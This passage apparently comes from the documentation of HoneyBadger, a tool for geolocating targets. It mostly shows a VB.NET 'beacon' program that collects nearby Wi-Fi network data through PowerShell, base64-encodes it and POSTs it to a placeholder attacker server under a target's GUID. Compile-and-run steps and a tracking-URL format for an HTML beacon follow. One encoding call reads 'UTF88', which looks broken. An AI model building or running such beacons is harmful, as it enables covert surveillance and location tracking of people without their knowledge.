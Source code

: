             ' Create and initialize the wifi data variable
            Dim wifi As String
            wifi = objWSH.Exec("powershell netsh wlan show networks mode=bssid | findstr 'SSID Signal Channel'").StdOut.ReadAll
            
            ' Create a temp file
            Dim objWriter As New System.IO.StreamWriter(Environ("temp") & "\wifidat.txt")
            
            ' Write data to file
            objWriter.Write(wifi)

            ' Close file
            objWriter.Close(0)
            
            ' Read in the temp file contents with proper encoding
            wifi = objWSH.Exec("powershell Get-Content %TEMP%\wifidat.txt -Encoding UTF8 -Raw").StdOut.ReadAll
            
            ' Delete temp file
            Kill(Environ("temp") & "\wifidat.txt")

            ' Base64-encode data
            wifi = objWSH.Exec("powershell -Command ""& {[System.Convert]::ToBase64String([System.Text.Encoding]::UTF88.GetBytes('" & wifi & "'))}""").StdOut.ReadAll

            ' Create new web object
            Dim objHTTP As New Object
            objHTTP = CreateObject("MSXML2.ServerXMLHTTP")

            ' Open POST request to server
            objHTTP.Open("POST", "http://<SERVER>:5000/api/beacon/aedc4c63-8d13-4a22-81c5-d52d32293867/VB")

            ' Set request headers to notify server of POST form data
            objHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

            ' Send the formatted data to the server
            objHTTP.Send("os=windows&data=" & wifi)
        End Sub
    End Module

Copy this script into a file with a .vb extension, and run vbc <FILENAME>.vb to compile, and then run <FILENAME>.exe to create the beacon.


### 4. HTML ###
To use a beacon with the HTML agent, go to the targets page and copy the GUID of the desired target, and create a URL formatted like so:
`http://<SERVER>:5000/api/beacon/<GUID>/HTML?lat=<LAT>&lng=<LNG>&acc=<ACC>`

Navigate to this page in a browser. The server will return a 404


### 5. CMD ###
The CMD agent is a type of HTML agent, as the beacon is created via web requests on the command line. There are two utilities in the util directory of HoneyBadger, one for windows and one for linux. They utilize Google's geolocation API. Usage information is available in those scripts. 
